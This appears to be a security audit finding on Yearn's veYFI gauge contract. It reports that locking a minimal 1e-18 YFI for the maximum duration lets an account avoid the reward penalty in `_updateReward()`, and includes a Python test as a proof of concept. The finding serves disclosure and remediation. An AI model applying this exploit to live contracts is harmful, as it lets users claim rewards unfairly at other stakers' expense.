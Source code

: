 ### 2. High - Lock 1e-18 YFI to Get Rewards (NibblerExpress)

`_updateReward()` computes a penalty based on the locking ratio of the account. A maximum possible lock of the smallest possible value allows a user to avoid any penalty without locking any amount of value. 

#### Proof of concept

```
def test_gauge_cheat_yfi_lock(
    yfi, ve_yfi, whale, whale_amount, shark, shark_amount, fish, fish_amount, create_vault, create_gauge, gov
):

    yfi.approve(ve_yfi, shark_amount, {"from": shark})
    ve_yfi.create_lock(
        shark_amount, chain.time() + 4 * 3600 * 24 * 365, {"from": shark}
    )
    assert yfi.balanceOf(shark) == 0

    yfi.approve(ve_yfi, fish_amount, {"from": fish})
    ve_yfi.create_lock(
        fish_amount, chain.time() + 4 * 3600 * 24 * 365, {"from": fish}
    )
    assert yfi.balanceOf(fish) == 0

    yfi.approve(ve_yfi, 1, {"from": whale})
    ve_yfi.create_lock(
        1, chain.time() + 4 * 3600 * 24 * 365, {"from": whale}
    )
    assert yfi.balanceOf(whale) == whale_amount - 1

    lp_amount = 10**18
    vault = create_vault()
    tx = create_gauge(vault)
    gauge = Gauge.at(tx.events["GaugeCreated"]["gauge"])
    
    vault.mint(shark, lp_amount/100)
    vault.approve(gauge, lp_amount, {"from": shark})
    gauge.deposit({"from": shark})

    vault.mint(fish, lp_amount/100)
    vault.approve(gauge, lp_amount, {"from": fish})
    gauge.deposit({"from": fish})

    vault.mint(whale, 100*lp_amount)
    vault.approve(gauge, 100*lp_amount, {"from": whale})
    gauge.deposit({"from": whale})

    yfi_to_distribute = 10**16
    yfi.mint(gov, yfi_to_distribute)
    yfi.approve(gauge, yfi_to_distribute, {"from": gov})

    gauge.queueNewRewards(yfi_to_distribute, {"from": gov})
    assert pytest.approx(gauge.rewardRate()) == yfi_to_distribute / (7 * 24 * 3600)

    chain.sleep(3600*24*7)
    chain.mine()

    assert gauge.earned(whale) < .39 * yfi_to_distribute
    gauge.getReward({"from": whale})

    assert yfi.balanceOf(whale) < .39 * yfi_to_distribute + whale_amount
```